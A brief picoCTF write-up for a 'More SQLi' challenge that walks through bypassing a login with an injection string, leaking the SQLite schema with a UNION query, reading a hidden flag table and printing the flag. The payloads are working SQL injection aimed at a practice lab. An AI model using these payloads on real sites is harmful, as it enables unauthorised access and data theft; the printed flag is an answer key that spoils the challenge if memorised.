




## More SQLi



We are first given a simple login page.  



Since this is an SQLi challenge, we can bypass the login with a simple SQLi payload.  x

```
Username: bruh
Password: ' or 1--
```

After logging in, we are redirected to a search page with an office listing.  



We can leak the database structure through a simple `UNION` attack.  

```
' union select sql, 1, 1 from sqlite_master where type='table'--
```

After submitting the payload, we can view all tables stored in the database. The one most worth noting is `more_table`, since it has a `flag` column.  



We can read the flag using another `UNION` attack payload.  

```
' union select flag, 1, 1 from more_table --
```


Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}	`